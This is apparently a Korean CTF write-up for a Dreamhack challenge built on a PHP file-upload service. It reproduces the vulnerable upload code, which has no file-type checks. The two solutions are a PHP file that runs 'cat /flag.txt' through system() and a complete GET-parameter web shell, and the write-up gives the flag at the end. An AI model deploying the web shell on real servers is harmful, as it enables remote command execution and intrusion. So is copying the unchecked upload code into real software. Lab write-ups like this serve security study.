




문제는 **php로 작성된 파일 저장 서비스입니다. 파일 업로드 취약점을 이용해 플래그를 획득하세요. 플래그는 /flag.txt에 있습니다.** 입니다.

이번 문제 코드는 php 이다.

### index.php

**index.php** 는 `/` 부분에서 랜더링하는 일반적인 html 의 파일이다.  
아래에 있는 이미지가 index.php로 만든 사이트이다.  

  

코드는 풀이에 필요없어서 생략  

### list.php

코드는 php 부분만 입력

```php
    <?php
        $directory = './uploads/';
        $scanned_directory = array_diff(scandir($directory), array('..', '.', 'index.html'));
        foreach ($scanned_directory as $key => $value) {
            echo "<li><a href='{$directory}{$value}'>".$value."</a></li><br/>";
        }
    ?> 
```

**list.php** 는 `/list` 부분에서 사용자가 **업로드한 파일**을 보여주는 곳이다.  

  

위의 이미지는 **test.php**를 만들어서 임시로 올린 상황이다.  
파란 글씨의 파일 이름을 누르면, 그 파일이 다운로드 된다.  

./uploads 에 있는 파일들을 찾는데, 제목에 `'..', '.', 'index.html'` 가 있다면, 제외하고, 나머지 파일은 list에 파일 이름을 출력하고, 그 이름에 파일이 있는 곳으로 하이퍼링크를 설정한다.

### upload.php

코드는 php 부분만 입력

```php
<?php
  if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if (isset($_FILES)) {
      $directory = './uploads/';
      $file = $_FILES["file"];
      $error = $file["error"];
      $name = $file["name"];
      $tmp_name = $file["tmp_name"];
     
      if ( $error > 0 ) {
        echo "Error: " . $error . "<br>";
      }else {
        if (file_exists($directory . $name)) {
          echo $name . " already exists. ";
        }else {
          if(move_uploaded_file($tmp_name, $directory . $name)){
            echo "Stored in: " . $directory . $name;
          }
        }
      }
    }else {
        echo "Error !";
    }
    die();
  }
?>
```

이 코드는, 만약 **POST 방식이면(파일을 업로드 할 때)**, **./uploads** 에 업로드한 파일을 **저장**하고, **오류 여부**와 파일 저장을 성공했다면, **어디에 저장했는지** 알려준다.

# 첫 번째 풀이(system(cat /flag.txt) 사용)

여기서 저희는 /flag.txt 를 찾는 것이기 때문에, 그냥 **cat /flag.txt** 를 하면 됩니다.(/flag.txt -> 루트에 있는 flag.txt 파일)

```php
<?php
	system("cat /flag.txt");
?>
```

다음과 같이 코드를 작성하고,

  

파일을 업로드하고, list에서 그 파일에 들어가면

  

다음과 같이 flag 가 나온다.  

# 두 번째 풀이(드림핵 풀이, 웹 셸)

또 다른 방법으로 웹 셸을 업로드하는 방법이 있다.  

php로 웹 셸을 만드는 방법을 몰라서, 드림핵에서 제시한 예시 코드의 출처에서 웹 셸 코드를 가져왔다.  

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

다음과 같이 웹 셸을 업로드하고, 실행하면 웹 셸을 띄울 수 있다.  

  

아래의 이미지는 `ls -al`을 입력한 예시이다.  

  

그리고 여기서 `cat /flag.txt` 를 통해 flag를 얻을 수 있다.(아니면 `cd .. ; ls -al` 을 통해 상위 폴더에서 flag.txt를 찾을 수 있다. 실제 위치는 `cat ../../../../flag.txt` 이다.)  

  

따라서 답은 **DH{c29f44ea17b29d8b76001f32e8997bab}** 입니다.